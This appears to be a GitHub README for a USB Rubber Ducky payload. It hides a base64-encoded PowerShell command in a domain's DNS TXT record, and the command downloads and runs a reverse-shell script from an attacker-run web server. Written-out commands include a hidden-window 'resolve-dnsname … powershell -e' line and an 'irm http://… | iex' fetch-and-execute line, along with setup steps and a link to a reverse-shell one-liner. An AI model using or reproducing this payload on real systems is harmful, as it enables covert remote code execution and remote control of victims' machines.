 # DNS-TXT-CommandInection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record.
## Description
A usb rubber ducky payload that leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. See link below for an example of creating your DNS TXT record in AWS Route53 service.
## Requirements
A domain with the ability to manipulate the DNS TXT records.
Web Server hosting the payload. In this example, python3 http.server was used to host a reverseshell.
Provide URL used for Example
DEFINE  #MY_TARGET_URL example.com
## Notes
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRING payload below. Examples of the decoded command and encoded command are shown below to put into DNS TXT record.
Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="
powershellReverseShellOne-liner.ps1 is identical to T1.txt. (shortened due to character limitations)
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
### [Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
```Powershell
.\powershellReverseShellOne-liner.ps1
```
### Convert payload to base64
```Powershell
.\convertBase64.ps1
```
### Alternative to executing Powershell Script
```Powershell
gc -raw .\convertBase64.ps1 | iex
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Convert to base64](https://pypi.org/project/uploadserver/)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)

